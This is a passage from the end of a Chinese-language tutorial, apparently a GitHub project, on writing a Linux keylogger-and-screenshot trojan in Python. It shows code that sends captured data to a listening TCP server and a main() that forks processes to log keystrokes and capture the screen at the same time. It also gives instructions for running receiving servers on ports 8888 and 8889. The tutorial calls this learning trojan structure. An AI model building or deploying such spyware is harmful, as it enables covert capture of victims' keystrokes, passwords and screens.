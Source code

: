 ```python
        task.run()
        return "success"

    def send_stop_message(self):
        # 发送结束标志
        # 建立一个任务，然后发送相应的内容,告诉数据已经发送完毕
        content = "\r\nover\r\n"
        task = BasicNetworkTask(self.server_instance, content)
        task.run()
        # 记得释放这个tcp的链接
        self.server_instance.destroy()
```
#### 5.2.6 运行程序
上述我们实现了键盘记录、截图功能、数据发送功能。根据[4.2](#jump2)，在这里讲述下Python的多进程编程，将上述功能组合在一起实现并发运行。 Python下
的多进程编程常用的库是[muptiprocessing][multiprocess],`multiprocessing`库提供了非常强大的功能，支持子进程、通讯和共享数据。 但因本程序限制在`linux`环境下，
所以使用更为轻量的`os.fork`来创建多进程程序。
```python
def main(key_name, pic_name, key_type='txt', pic_type='png'):
    """
       因为捕捉键盘记录 和屏幕截图 是两个独立的任务，
       所以在这里fork产生一个新的进程来执行屏幕截图
    """
    f = os.fork()
    if f == 0:
        # 这里是子进程, 会调用外部程序
        screen_shot(pic_name, pic_type)
    else:
        # 父进程
        keylogger_func(key_name, key_type)
```
为了正常运行程序，先在终端中运行`python server.py -p 8888`, 开启接受键盘数据的服务，`python server -p 8889`开起一个接受图像的服务。
然后运行`python main.py`就可以了。运行效果如下:
![][result]
## 六 总结
基于`Linux`的设备管理相关知识和`evdev`库的使用，实现键盘记录，并详细介绍了缓冲区的处理方法和网络编程的相关知识。利用多进程编程实现
屏幕截图和键盘记录并发执行的效果。通过该项目的学习和实现，可以了解木马程序的基本结构和原理，加强对`Linux`的底层的了解，实践网络编程及相关应用。

[CHAR_NODE]: http://blog.jobbole.com/86531/
[x11]: https://github.com/amoffat/pykeylogger
[commands]: http://blog.csdn.net/dbanote/article/details/9414133
[devices_file]: http://tieba.baidu.com/p/1853607526
[example]: http://7xqdxb.com1.z0.glb.clouddn.com/tickets7.png
[device_info]: 设备信息截图
[evdev_doc]: http://python-evdev.readthedocs.io/en/latest/tutorial.html#listing-accessible-event-devices
[status_manager]: 状态管理截图
[decode_input]: 原始数据和解码后的截图
[multiprocess]: http://python.jobbole.com/82045/
[result]: /images/result.png
